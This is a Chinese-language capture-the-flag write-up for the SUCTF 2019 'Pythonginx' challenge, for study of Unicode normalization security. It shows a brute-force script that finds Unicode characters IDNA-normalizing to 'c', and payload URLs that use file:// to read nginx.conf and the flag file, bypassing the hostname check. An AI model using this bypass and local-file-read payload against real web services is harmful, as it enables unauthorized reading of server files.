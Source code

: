 # \[SUCTF 2019]Pythonginx

## \[SUCTF 2019]Pythonginx

## 考点

* Unicode安全性
* Nginx配置文件

## wp

给了源码

```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

通过parse.urlparse解析传入的URL，并返回hostname。

```python
url = 'https://www.baidu.com/index.php?tn=monline_3_dg'
host = parse.urlparse(url).hostname
# www.baidu.com
```

然后使用urlsplit对URL分割为parts列表，再把parts中的hostname赋值给host，然后对host中的字母用inda编码再用utf-8解码，再用`.`重新拼接。

```python
parts = list(urlsplit(url)) 
# ['https', 'www.baidu.com', '/index.php', 'tn=monline_3_dg', '']
host = parts[1]
newhost = []
for h in host.split('.'):
    newhost.append(h.encode('idna').decode('utf-8'))
# newhost ['www', 'baidu', 'com']
parts[1] = '.'.join(newhost)
# ['https', 'www.baidu.com', '/index.php', 'tn=monline_3_dg', '']
```

去掉parts中的空格后，再用parse.urlparse解析。

```python
finalUrl = urlunsplit(parts).split(' ')[0]
# https://www.baidu.com/index.php?tn=monline_3_dg
host = parse.urlparse(finalUrl).hostname
# www.baidu.com
```

最后如果host是`suctf.cc`就发送请求，否则给出错误提示，这里就是一个矛盾，不能输入`suctf.cc`最后结果却是`suctf.cc`。

```python
if host == 'suctf.cc':
    return urllib.request.urlopen(finalUrl).read()
else:
    return "我扌 your problem? 333"
```

代码里面有个很奇怪的地方，host为什么要用`idna`编码，查一下就可以查到相关的资料，在blackhat有个议题[Host/Split Exploitable Antipatterns in Unicode Normalization](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)

写脚本爆破，找一个能表示c的Unicode字符

```python
# coding:utf-8 
for i in range(128,10000):
    tmp = chr(i)
    try:
        res = tmp.encode('idna').decode('utf-8') 
        if res == 'c':
            print(i,str(hex(i)))
            eval(f"print('\\u{str(hex(i))[2:]}'.encode())")
            
    except: 
        pass
```

得到结果

```
8450 0x2102
b'\xe2\x84\x82'
8493 0x212d
b'\xe2\x84\xad'
8557 0x216d
b'\xe2\x85\xad'
8573 0x217d
b'\xe2\x85\xbd'
9400 0x24b8
b'\xe2\x92\xb8'
9426 0x24d2
b'\xe2\x93\x92'
```

传入参数 `getUrl?url=http://suctf.c%e2%93%92/`，成功访问

接着可以使用file协议读取文件 `getUrl?url=file://suctf.c%e2%93%92/usr/local/nginx/conf/nginx.conf`

得到结果

```
server {
    listen 80;
    location / {
        try_files $uri @app;
    }
    location @app {
        include uwsgi_params;
        uwsgi_pass unix:///tmp/uwsgi.sock;
    }
    location /static {
        alias /app/static;
    }
    # location /flag {
    #     alias /usr/fffffflag;
    # }
}
```

读取flag `getUrl?url=file://suctf.c%e2%93%92/usr/fffffflag`

## 小结

1. Nginx目录

```
配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf
```
